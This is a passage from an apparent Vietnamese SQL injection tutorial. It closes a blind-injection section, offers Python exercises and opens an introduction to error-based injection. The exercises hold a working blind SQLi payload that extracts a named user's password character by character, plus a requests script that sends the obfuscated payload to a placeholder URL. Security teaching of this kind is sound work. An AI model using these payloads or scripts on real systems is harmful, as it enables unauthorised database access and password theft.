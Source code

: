 2. **Kết quả:**
   - Truy vấn trả về một dòng dữ liệu nếu ký tự đầu tiên khớp với điều kiện.

3. **Phân tích:**
   - Mỗi yêu cầu sẽ khớp một ký tự từ chuỗi cần dò.
   - Hiệu quả hơn các thuật toán `binary search` truyền thống (7 truy vấn/ký tự).

---

#### **3. Bài tập Python:**

1. **Viết script tự động tạo payload:**
   - Mã Python cơ bản:
     ```python
     def encode_payload(base_payload):
         return base_payload.replace(" ", "/**/").replace("'", "$$")

     payload = "' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--"
     encoded_payload = encode_payload(payload)
     print(f"Encoded Payload: {encoded_payload}")
     ```

2. **Tự động gửi truy vấn:**
   - Thêm thư viện `requests` để gửi payload qua HTTP:
     ```python
     import requests

     def send_payload(url, payload):
         encoded_payload = encode_payload(payload)
         response = requests.get(url, params={"u": encoded_payload})
         return response.text

     url = "http://target.com/find-user"
     payload = "' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--"
     print(send_payload(url, payload))
     ```

---


# 7. Khai thác SQL Injection dựa trên lỗi (Error-Based SQLi)

---

#### **1. Giới thiệu:**

- **Error-Based SQL Injection** là một kỹ thuật trong đó kẻ tấn công lợi dụng thông báo lỗi từ cơ sở dữ liệu để truy xuất thông tin.
- Dạng tấn công này thường có hiệu quả khi ứng dụng:
  - **Hiển thị thông báo lỗi chi tiết** cho người dùng (hoặc qua stack trace).
  - **Xử lý ngoại lệ không an toàn**, làm lộ các thông tin nhạy cảm từ cơ sở dữ liệu.

---
